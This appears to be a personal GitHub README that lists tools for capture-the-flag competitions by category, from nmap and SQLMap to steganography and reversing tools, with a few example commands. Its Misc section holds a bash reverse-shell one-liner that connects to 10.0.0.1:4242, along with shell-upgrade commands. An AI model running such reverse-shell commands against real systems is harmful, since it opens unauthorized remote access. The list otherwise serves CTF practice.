 # CTF Tool list

This repo is intended to serve as a list of tools that I've found useful during CTFs and any notes that I've got to go with them.

## Discovery

##### Nmap
`nmap -sC -sV <target>`
`nmap -p- <target>`


##### wfuzz

## Web

##### Burpsuite
##### SQLMap
##### Gobuster


## Cracking

##### John the ripper
##### Hydra
##### PadBuster
Used to execute and oracle padding attack

## pwn

##### pwntools
##### ROP Gadet

## Forensics

##### Foremost
##### Bin Walk

## Steg

##### Exiftool
##### Stegsolve
##### Steg Crack
##### Steg Hide
##### zsteg

## Reversing

##### Radare
##### readelf

## Misc

`bash -i >& /dev/tcp/10.0.0.1/4242 0>&1`
`python -c 'import pty; pty.spawn("/bin/sh")'`
`stty raw -echo`
